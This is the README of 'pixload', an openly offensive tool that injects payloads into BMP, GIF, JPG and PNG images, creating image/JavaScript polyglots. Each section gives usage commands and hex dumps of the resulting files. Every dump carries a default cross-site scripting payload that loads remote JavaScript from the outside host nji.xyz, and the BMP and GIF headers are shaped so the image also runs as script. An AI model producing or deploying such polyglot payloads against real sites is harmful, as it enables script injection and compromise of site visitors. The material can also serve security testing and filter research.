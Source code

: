 # pixload -- Image Payload Creating tools

## DESCRIPTION

Set of tools for creating/injecting payload into images.

## SETUP

The following Perl modules are required:

	- GD

	- Image::ExifTool

	- String::CRC32

On Debian-based systems install these packages:

```sh
sudo apt install libgd-perl libimage-exiftool-perl libstring-crc32-perl
```

On OSX please refer to [this workaround](https://github.com/chinarulezzz/pixload/issues/3).

Thanks to @iosdec

## TOOLS

### bmp.pl

BMP Payload Creator/Injector.

##### Usage

```sh
./bmp.pl [-payload 'STRING'] -output payload.bmp

If the output file exists, then the payload will be injected into the
existing file.  Else the new one will be created.
```

##### Example

```sh
./bmp.pl -output payload.bmp

[>|       BMP Payload Creator/Injector      |<]

    https://github.com/chinarulezzz/pixload


[>] Generating output file
[✔] File saved to: payload.bmp

[>] Injecting payload into payload.bmp
[✔] Payload was injected successfully

payload.bmp: PC bitmap, OS/2 1.x format, 1 x 1

00000000  42 4d 2f 2a 00 00 00 00  00 00 1a 00 00 00 0c 00  |BM/*............|
00000010  00 00 01 00 01 00 01 00  18 00 00 00 ff 00 2a 2f  |..............*/|
00000020  3d 31 3b 3c 73 63 72 69  70 74 20 73 72 63 2f 2f  |=1;<script src//|
00000030  6e 6a 69 2e 78 79 7a 3e  3c 2f 73 63 72 69 70 74  |nji.xyz></script|
00000040  3e 3b                                             |>;|
00000042
```

### gif.pl

GIF Payload Creator/Injector.

##### Usage

```sh
./gif.pl [-payload 'STRING'] -output payload.gif

If the output file exists, then the payload will be injected into the
existing file.  Else the new one will be generated.
```
##### Example

```sh
./gif.pl -output payload.gif

[>|      GIF Payload Creator/Injector       |<]

    https://github.com/chinarulezzz/pixload


[>] Generating output file
[✔] File saved to: payload.gif

[>] Injecting payload into payload.gif
[✔] Payload was injected successfully

payload.gif: GIF image data, version 87a, 10799 x 32

00000000  47 49 46 38 37 61 2f 2a  20 00 80 00 00 04 02 04  |GIF87a/* .......|
00000010  00 00 00 2c 00 00 00 00  20 00 20 00 00 02 1e 84  |...,.... . .....|
00000020  8f a9 cb ed 0f a3 9c b4  da 8b b3 de bc fb 0f 86  |................|
00000030  e2 48 96 e6 89 a6 ea ca  b6 ee 0b 9b 05 00 3b 2a  |.H............;*|
00000040  2f 3d 31 3b 3c 73 63 72  69 70 74 20 73 72 63 3d  |/=1;<script src=|
00000050  2f 2f 6e 6a 69 2e 78 79  7a 3e 3c 2f 73 63 72 69  |//nji.xyz></scri|
00000060  70 74 3e 3b                                       |pt>;|
00000064
```

### jpg.pl

JPG Payload Creator/Injector.

##### Usage

```sh
./jpg.pl [-payload 'STRING'] -output payload.jpg

If the output file exists, then the payload will be injected into the
existing file.  Else the new one will be created.
```

##### Example

```sh
./jpg.pl -output payload.jpg

[>|      JPEG Payload Creator/Injector      |<]

    https://github.com/chinarulezzz/pixload


[>] Generating output file
[✔] File saved to: payload.jpg

[>] Injecting payload into comment tag
[✔] Payload was injected successfully

payload.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 96x96, segment length 16, comment: "<script src//nji.xyz></script>", baseline, precision 8, 32x32, components 3

00000000  ff d8 ff e0 00 10 4a 46  49 46 00 01 01 01 00 60  |......JFIF.....`|
00000010  00 60 00 00 ff fe 00 20  3c 73 63 72 69 70 74 20  |.`..... <script |
00000020  73 72 63 2f 2f 6e 6a 69  2e 78 79 7a 3e 3c 2f 73  |src//nji.xyz></s|
00000030  63 72 69 70 74 3e ff db  00 43 00 08 06 06 07 06  |cript>...C......|
00000040  05 08 07 07 07 09 09 08  0a 0c 14 0d 0c 0b 0b 0c  |................|
00000050  19 12 13 0f 14 1d 1a 1f  1e 1d 1a 1c 1c 20 24 2e  |............. $.|
00000060  27 20 22 2c 23 1c 1c 28  37 29 2c 30 31 34 34 34  |' ",#..(7),01444|
00000070  1f 27 39 3d 38 32 3c 2e  33 34 32 ff db 00 43 01  |.'9=82<.342...C.|
00000080  09 09 09 0c 0b 0c 18 0d  0d 18 32 21 1c 21 32 32  |..........2!.!22|
00000090  32 32 32 32 32 32 32 32  32 32 32 32 32 32 32 32  |2222222222222222|
*
...
000002a5
```

### png.pl

PNG Payload Creator/Injector.

##### Usage

```sh
./png.pl [-payload 'STRING'] -output payload.png

If the output file exists, then the payload will be injected into the
existing file.  Else the new one will be created.
```

##### Example

```sh
./png.pl -output payload.png

[>|      PNG Payload Creator/Injector       |<]

    https://github.com/chinarulezzz/pixload


[>] Generating output file
[✔] File saved to: payload.png

[>] Injecting payload into payload.png

[+] Chunk size: 13
[+] Chunk type: IHDR
[+] CRC: fc18eda3
[+] Chunk size: 9
[+] Chunk type: pHYs
[+] CRC: 952b0e1b
[+] Chunk size: 25
[+] Chunk type: IDAT
[+] CRC: c8a288fe
[+] Chunk size: 0
[+] Chunk type: IEND

[>] Inject payload to the new chunk: 'pUnk'
[✔] Payload was injected successfully

payload.png: PNG image data, 32 x 32, 8-bit/color RGB, non-interlaced

00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 20 00 00 00 20  08 02 00 00 00 fc 18 ed  |... ... ........|
00000020  a3 00 00 00 09 70 48 59  73 00 00 0e c4 00 00 0e  |.....pHYs.......|
00000030  c4 01 95 2b 0e 1b 00 00  00 19 49 44 41 54 48 89  |...+......IDATH.|
00000040  ed c1 31 01 00 00 00 c2  a0 f5 4f ed 61 0d a0 00  |..1.......O.a...|
00000050  00 00 6e 0c 20 00 01 c8  a2 88 fe 00 00 00 00 49  |..n. ..........I|
00000060  45 4e 44 ae 42 60 82 00  00 00 00 00 00 00 00 00  |END.B`..........|
00000070  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
000000c0  00 1f 70 55 6e 6b 3c 73  63 72 69 70 74 20 73 72  |..pUnk<script sr|
000000d0  63 3d 2f 2f 6e 6a 69 2e  78 79 7a 3e 3c 2f 73 63  |c=//nji.xyz></sc|
000000e0  72 69 70 74 3e 9d 11 54  97 00 49 45 4e 44        |ript>..T..IEND|
000000ee
```

## LICENSE

WTFPL

## LEGAL DISCLAIMER

The author does not hold any responsibility for the bad use
of this tool, remember that attacking targets without prior
consent is illegal and punished by law.

